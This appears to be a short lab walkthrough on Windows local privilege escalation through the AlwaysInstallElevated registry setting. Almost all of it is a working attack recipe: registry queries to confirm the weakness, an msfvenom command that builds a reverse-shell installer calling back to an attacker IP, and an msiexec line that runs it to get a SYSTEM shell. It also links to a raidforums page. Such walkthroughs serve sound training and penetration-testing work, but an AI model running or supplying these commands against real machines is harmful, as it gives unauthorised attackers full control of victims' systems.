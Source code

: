 [Windows Local Privilege Escalation - Registry (AlwaysInstallElevated) - YouTube](https://www.youtube.com/watch?v=9LpsofQN_ao&list=PLjG9EfEtwbvIrGFTx4XctK8IxkUJkAEqP&index=8)

[Domain Seizure](https://raidforums.com/misc.php?action=safelinks&url=https%3A%2F%2Fbook.hacktricks.xyz%2Fwindows%2Fwindows-local-privilege-escalation%23alwaysinstallelevated)



1. Query the registry for AlwaysInstallElevated keys:
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

> [!NOTE]
> Both keys are set to 1 (0x1).

2. On Kali, generate a reverse shell Windows Installer (reverse.msi) using msfvenom. Update the LHOST IP address accordingly:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f msi -o reverse.msi
```

3. Transfer the reverse.msi file to the C:\PrivEsc directory on Windows (use the SMB server method from earlier).
4. Start a listener on Kali and then run the installer to trigger a reverse shell running with SYSTEM privileges:
```
msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
```
